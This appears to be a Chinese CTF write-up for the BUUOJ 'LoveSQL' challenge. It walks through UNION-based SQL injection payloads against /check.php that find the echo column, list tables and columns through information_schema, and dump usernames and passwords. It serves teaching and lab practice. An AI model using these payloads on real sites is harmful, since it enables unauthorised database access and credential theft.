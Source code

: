 
**例题 02**

[[极客大挑战 2019]LoveSQL 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]LoveSQL)

---

**思路**

信息收集：和例题 01一样，先判断是字符型注入还是数字型注入，登录成功后，继续查询其他我们想要的数据(数据库信息、数据表信息、表字段等)

登录成功以后，出现

"Your password is 'd7d4ab5c84a7d1e1ec3267135c22ae2d'"

表明了 `password` 这个字段是可以显示查询结果的地方（回显点）

---

因为浏览器不会自动把 # 符号自动编码，所以需要改成 %23（URL编码）
```
# 判断回显点位
/check.php?username=1' union select 1,2,3%23&password=1  
# 查询有哪些表
/check.php?username=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23&password=1

# 查询geekuser有哪些字段
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='geekuser'%23&password=1
# 查询l0ve1ysq1有哪些字段
/check.php?username=1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'%23&password=1

# 查询geekuser表数据
/check.php?username=1' union select 1,2,group_concat(id,username,password) from geekuser%23&password=1
# 查询l0ve1ysq1表数据
/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1




```

---

**答案**

```
/check.php?username=1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1%23&password=1
```

---
